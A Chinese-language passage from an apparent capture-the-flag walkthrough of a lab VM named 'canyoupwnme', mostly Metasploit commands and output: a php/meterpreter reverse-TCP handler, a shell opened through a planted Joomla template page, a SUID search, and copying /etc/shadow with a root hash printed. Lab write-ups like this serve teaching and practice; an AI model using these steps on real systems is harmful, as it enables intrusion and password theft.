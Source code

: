 
在 msf 里配置：

```zsh
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (38288 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:34605) at 2020-08-19 13:14:34 +0800
```

然后访问http://192.168.56.101:8081/templates/beez/index.php就会打开meterpreter了。

```zsh
meterpreter > sysinfo
Computer    : canyoupwnme
OS          : Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686
Meterpreter : php/linux
meterpreter > shell
Process 2169 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@canyoupwnme:/var/www/html/joomla/templates/beez$ cd /bin
cd /bin
www-data@canyoupwnme:/bin$ ls -al
ls -al
total 9428
drwxr-xr-x  2 root root    4096 Feb  3  2016 .
drwxr-xr-x 22 root root    4096 Feb 13  2016 ..
-rwxr-xr-x  1 root root  986672 Oct  7  2014 bash
```

`find / -perm -u=s 2>/dev/null`来搜索能够使用的 sudo 命令。

在 bin 下面使用 cp 命令，拷贝 shadow 文件

```zsh
www-data@canyoupwnme:/bin$ cp /etc/shadow /tmp
cp /etc/shadow /tmp
www-data@canyoupwnme:/bin$ cd /tmp
cd /tmp
www-data@canyoupwnme:/tmp$ cat shadow
cat shadow
root:$6$6ZcgUVCV$Ocsce9FUHYswcbI3UtrPNqFnkvcPOnEtstWlVSTqGYEYAYZ9aYw7tnW35uRGxb1z7ZZBZ.hoQcm/S/cg0f4uI0:16843:0:99999:7:::
daemon:*:16652:0:99999:7:::
bin:*:16652:0:99999:7:::
sys:*:16652:0:99999:7:::
```
